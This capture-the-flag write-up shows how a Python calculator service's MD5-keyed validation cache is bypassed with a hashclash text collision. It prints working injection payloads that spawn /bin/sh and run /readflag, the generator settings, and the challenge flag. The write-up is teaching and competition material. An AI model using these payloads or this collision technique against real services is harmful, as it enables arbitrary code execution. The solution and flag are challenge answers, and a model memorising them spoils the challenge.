




# Service

Checking the service, it is a calculator in Python.



It has some validation and caching that validation. Running the same code has a hit for the validation.
Some (most) opcodes are blacklisted, only a few of them are allowed, probably using the [dis](https://docs.python.org/3/library/dis.html).



Basically only literals and variables (where the locals/globals scope is empty) are allowed, nothing that would call a function.

# MD5 Collision

From the length of the hash, it is md5. Checking `md5("1+1")` is exactly the used `d96e018f51ea61e5ff2f9c349c5da67d`.

The md5 hash worsk with blocks (64 bytes). If we have a colliding block pair, appending the same to the both of them results in the same (new) hash.

If we can generate a valid code and a different malicious one, we can bypass the check.

# Hash clash

The [hashclash](https://github.com/cr-marcstevens/hashclash) projects is a low level tool to generate certain types of collisions.

There is an option for [Create you own text identical-prefix collision](https://github.com/cr-marcstevens/hashclash?tab=readme-ov-file#create-you-own-text-identical-prefix-collision).

## Example

Example:

```
md5("TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
=
md5("TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
```

- Create temporary working directory

  `mkdir textcoll_workdir`

  `cd textcoll_workdir`

- Run script

  `../scripts/textcoll.sh`

- Edit the script for more options: change alphabet, force specific bytes, etc...

## Generator script

The `scripts/textcoll.sh` generator script has a bunch of constraints well commented.

 * First block: 
   - byte21 has a +4 difference: you must ensure that this difference is possible in the alphabet, e.g., have both A and E(=A+4)
 * Second block: 
   - keep the alphabet of bytes 0-7 large: otherwise there could be no solutions
   - keep the alphabet of bytes 56-63 large: to make the search fast

## The idea

The biggest constraint is the biggest opportunity as well. The 4 difference for byte21 can basically flip a character. My choice was `#` to `'` as the difference between their ascii code is exactly 4.

For the valid calc: concatenating a bytestring to a variable is a valid opcode, and the comment is simply ignores everything afterwards.

For the malicious part: concatenating 2 bytestrings then concatenating more with arbitrary function calls is perfectly good.

```
b' ... '+b# ... '+evil_code
b' ... '+b' ... '+evil_code
```

The only caveat is that it should include only valid characters for the literal and a closing quote should not be present. Luckily enough, nothing such occured.

## Execution

Changing the following was enough. The second block had no restriction at all.

```bash
FIRSTBLOCKBYTES="--byte0 b --byte1 \"'\" --byte18 \"'\"  --byte19 \"+\" --byte20 \"b\" --byte21 \"'#\""
SECONDBLOCKBYTES=''
```

Original [textcoll.sh](workdir/scripts/textcoll.sh) and the [textcoll-mod.sh](workdir/scripts/textcoll-mod.sh) modified one.




```bash
../scripts/textcoll-mod.sh
```

Took around 70 minutes to find a collision.

```
========= final_collision1.txt ==========
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q

========= final_collision2.txt ==========
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q
```

```
0ac8514c4fef27c2269938b257e7c609 *final_collision1.txt
0ac8514c4fef27c2269938b257e7c609 *final_collision2.txt
```

They only differ at the crucial comment/quote position.

# Exploit

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')

b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
```

After looking around, there is a `readflag` binary in the root.

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
```



# Flag
`CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}`